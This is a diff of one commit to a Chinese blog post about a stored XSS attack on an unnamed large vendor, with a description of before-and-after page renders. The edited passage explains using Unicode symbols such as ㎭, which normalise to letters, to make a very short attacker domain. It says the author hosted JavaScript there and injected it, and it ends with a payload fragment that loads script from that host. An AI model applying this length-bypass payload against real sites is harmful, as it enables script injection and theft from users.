

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide and 900 px high, scrolled down 1056 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -49,17 +49,17 @@ published: true
 ™	8482	2122
 ㎭
 ```
-但绝大多数人不知道的是，在浏览器解析这些字母符号时，会自动按一下格式转换
+但绝大多数人不知道的是，在浏览器解析这些字母符号时，会自动按以下格式转换
 ```
 ™	tm
 ℡	tel
 ™	tm
 ㎭ rad
 ```
-而且实际上，这些字符无论解析出来的英文有多长，都仅占用一个字节
-这样，注册一个域名radq.cc，等同于无论是使用㎭q.cc还是radq.cc，都能顺利解析到同一ip
-这样就好办了，不用花大价钱注册5字节长度域名，只需注册一个包含特殊字符的7字节长度的小域名就可以了
-这样我们注册了㎭q.cc，在该域名下挂js脚本，顺利注入
+这些字符无论解析出来的英文有多长，都仅占用一个字节
+这样，注册一个域名radq.cc，无论是使用㎭q.cc还是radq.cc，都能顺利C类解析到同一源ip
+这样就好办了，不用花大价钱注册5长度域名，只需注册一个包含特殊字符的7长度的小域名就可以了
+这样我们注册了radq.cc，在该域名下挂js脚本，顺利注入
 payload:
 ```js
   " script=http//㎭q.cc
````
